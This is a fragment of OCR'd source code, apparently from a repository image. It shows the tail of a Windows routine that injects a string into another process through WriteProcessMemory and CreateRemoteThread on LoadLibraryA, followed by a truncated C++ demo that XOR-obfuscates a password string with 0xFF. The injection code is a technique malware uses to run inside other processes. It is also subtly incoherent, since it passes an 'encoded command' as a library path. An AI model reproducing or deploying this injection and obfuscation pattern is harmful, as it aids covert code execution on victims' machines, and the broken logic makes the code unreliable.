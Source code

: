 ```
    if (remote_string == NULL) {
        printf("Error allocating memory. Error code: %lu\n", GetLastError());
        CloseHandle(process);
        return 1;
    }

    BOOL write_result = WriteProcessMemory(process, remote_string, encoded_cmd, strlen(encoded_cmd), NULL);
    if (!write_result) {
        printf("Error writing to process memory. Error code: %lu\n", GetLastError());
        CloseHandle(process);
        return 1;
    }

    HANDLE thread = CreateRemoteThread(process, NULL, 0, (LPTHREAD_START_ROUTINE)LoadLibraryA, remote_string, 0, NULL);
    if (thread == NULL) {
        printf("Error creating remote thread. Error code: %lu\n", GetLastError());
        CloseHandle(process);
        return 1;
    }

    WaitForSingleObject(thread, INFINITE);

    VirtualFreeEx(process, remote_string, strlen(encoded_cmd), MEM_RELEASE);
    CloseHandle(process);

    return 0;
}

```


### XOR'd with 0xFF

```
#include <iostream>
#include <cstring>

using namespace std;

void obfuscate(char* s) {
    for (int i = 0; s[i]; i++) {
        s[i] = s[i] ^ 0xFF;
    }
}

int main() {
    char* str = new char[20];
    strcpy(str, "password123");
    
    // Obfuscate the string
    obfuscate(str);
    
    // Print the obfuscated string
    cout << str << endl;
    
    // Restore the original string
    obfuscate(str);
    
    // Print the original string
    cout << str << endl;
    
    delete[] str;
```